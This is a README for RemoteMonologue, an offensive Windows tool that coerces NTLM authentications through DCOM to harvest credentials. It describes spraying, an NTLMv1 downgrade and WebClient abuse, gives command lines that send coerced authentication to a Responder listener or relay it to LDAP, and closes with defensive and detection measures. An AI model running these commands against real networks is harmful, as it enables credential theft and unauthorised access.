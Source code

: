 # RemoteMonologue

RemoteMonologue is a Windows credential harvesting technique that enables remote user compromise by leveraging the Interactive User RunAs key and coercing NTLM authentications via DCOM. 

Read [RemoteMonologue: Weaponizing DCOM for NTLM  Authentication Coercions] for detailed information.

## **Features**  

🔹 **Authentication Coercion via DCOM (`-dcom`)**  
- Targets three DCOM objects (`ServerDataCollectorSet`, `FileSystemImage`, `UpdateSession`) to trigger NTLM authentication against a specified listener (`-auth-to`).  

🔹 **Credential Spraying (`-spray`)**  
- Validate credentials across multiple systems while also capturing user credentials.  

🔹 **NetNTLMv1 Downgrade Attack (`-downgrade`)**  
- Force targets to use NTLMv1, making credential cracking and relaying easier.  

🔹 **WebClient Service Abuse (`-webclient`)**  
- Enables the WebClient service to facilitate HTTP-based authentication coercion.  

🔹 **User Enumeration (`-query`)**  
- Identify users with an active session on the target system.  

**Note:** Local administrator access to the target system is required.  

## **Setup**

```bash
pip install impacket
```

## **Examples**

Below is an example of running RemoteMonologue with the NetNTLMv1 downgrade attack while using `Responder` as the listener. By default, if no DCOM option is specified, the tool uses the `ServerDataCollectorSet` DCOM object.

```bash
RemoteMonologue.py domain/user:password@target -auth-to [listener IP] -downgrade
```

![image](https://github.com/user-attachments/assets/ada8f741-754f-4c50-9743-a6d9145f7407)


Below is another example, this time the attack is executed using the `FileSystemImage` DCOM object and enabling the WebClient service to obtain an HTTP authentication, which is then relayed to LDAP using `ntlmrelayx`.

```bash
RemoteMonologue.py domain/user:password@target -auth-to [listener NETBIOS@PORT] -webclient -dcom FileSystemImage
```

![image](https://github.com/user-attachments/assets/f79d879a-ac4b-4436-a453-359d6e2eba72)


## **Defensive Considerations**

To protect against and detect these techniques, there are several preventative and detection measures that can be implemented.

Preventative measures:

1.	Enable LDAP Signing and Channel Binding: Configure LDAP signing enforcement and channel binding on domain controllers to protect the LDAP endpoint from relay attacks. Note: These settings will be enforced by default starting with Windows Server 2025.

2.	Upgrade to the Latest Windows Versions: Upgrade servers to Windows Server 2025 and workstations to Windows 11 version 24H2 to mitigate NetNTLM downgrade attacks, as NTLMv1 has been removed in these versions.

3.	Enforce SMB Signing: Enable and enforce SMB signing on Windows servers to prevent SMB relay attacks.

4.	Implement Strong Password Policies: Enforce strong password requirements to make password cracking attacks more challenging.

Detection opportunities:

1.	Monitor Remote Access to DCOM Objects: Track access to the affected DCOM objects and their specific Properties and Methods to identify unusual activity.

2.	Monitor Registry Modifications: Monitor changes to the RunAs and LmCompatibilityLevel registry keys.

3.	Track WebClient Service Activity: Monitor for instances where the WebClient service is enabled remotely, as this is used to facilitate HTTP-based NTLM authentications.



[RemoteMonologue: Weaponizing DCOM for NTLM  Authentication Coercions]: https://www.ibm.com
